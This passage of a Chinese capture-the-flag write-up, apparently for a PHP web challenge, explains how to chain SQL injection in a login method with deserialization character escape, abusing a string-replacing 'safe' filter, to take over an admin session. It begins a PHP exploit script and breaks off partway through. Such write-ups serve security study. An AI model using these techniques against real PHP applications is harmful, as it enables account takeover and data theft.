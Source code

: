 ```
        if (md5($this-&gt;password)!==$passwordResult) `{`
            echo('密码错误！');
            return false;
        `}`
        $_SESSION['token']=$this-&gt;name;
        return $idResult;
    `}`
    public function update($sql)
    `{`
        //还没来得及写
    `}`
`}`
```

这里发现这里的`login($sql)`是可以被我们控制的。我们可以进行注入得到管理员的密码。

我们看一下这个`Info类`，

```
class Info`{`
    public $age;
    public $nickname;
    public $CtrlCase;
    public function __construct($age,$nickname)`{`
        $this-&gt;age=$age;
        $this-&gt;nickname=$nickname;
    `}`   
    public function __call($name,$argument)`{`
        echo $this-&gt;CtrlCase-&gt;login($argument[0]);
    `}`
`}`
```

发现我们能控制的参数只有`age`和`nickname`然而这里还多出来了一个属性`$CtrlCase`，如果我们利用反序列化字符逃逸，是可以控制这个属性的。正好`safe`这个函数给我们反序列化逃逸有了可能。

构造一下：

```
&lt;?php
error_reporting(0);
session_start();

class dbCtrl
`{`   
    public $token;
    public function __construct()`{`
    $this-&gt;token = 'admin';
    `}`
`}` 

function safe($parm)`{`
    $array= array('union','regexp','load','into','flag','file','insert',"'",'\',"*","alter");
    return str_replace($array,'hacker',$parm);
`}`
Class Info`{`
    public $CtrlCase;
    public function __construct()`{`
        $this-&gt;CtrlCase = new dbCtrl();
    `}`
`}`
Class User`{`
    public $nickname=null;
    public $age=null;
    public function __construct()`{`
        $this-&gt;nickname = new Info();
```